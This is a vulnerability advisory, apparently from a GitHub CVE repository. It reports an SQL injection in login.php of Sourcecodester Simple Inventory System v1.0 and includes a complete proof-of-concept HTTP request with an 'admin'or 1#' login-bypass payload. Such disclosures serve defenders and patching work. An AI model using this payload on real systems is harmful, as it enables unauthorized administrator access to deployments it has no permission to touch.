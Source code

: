 ### SQL injection vulnerability exists in Sourcecodester Simple Inventory System

official website:https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

version:v1.0

route：login.php

injection parameter:$_POST['username']

#### 1.Vulnerability analysis

As shown in the figure below, in login.php, after the username parameter is passed in through post, it is directly spliced into the SQL query statement without any security filtering, thus leading to the occurrence of SQL injection vulnerabilities. We can inject query statements through universal passwords to log in to the backend without the need for an admin password.

![image-20240517155805194](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Inventory%20System%20Sql%20Inject-1.assets/image-20240517155805194.png)

#### 2.Vulnerability verification and exploit

The POC is as follows.

```
POST /login.php HTTP/1.1
Host: 10.15.6.184:82
Content-Length: 38
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.15.6.184:82
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.15.6.184:82/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ncbt63bs17glrou5b79l17ifm6
Connection: close

username=admin'or%201#&password=1&submit=Login
```

![image-20240517160321056](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Inventory%20System%20Sql%20Inject-1.assets/image-20240517160321056.png)

It is possible to enter the background without the correct password of admin.
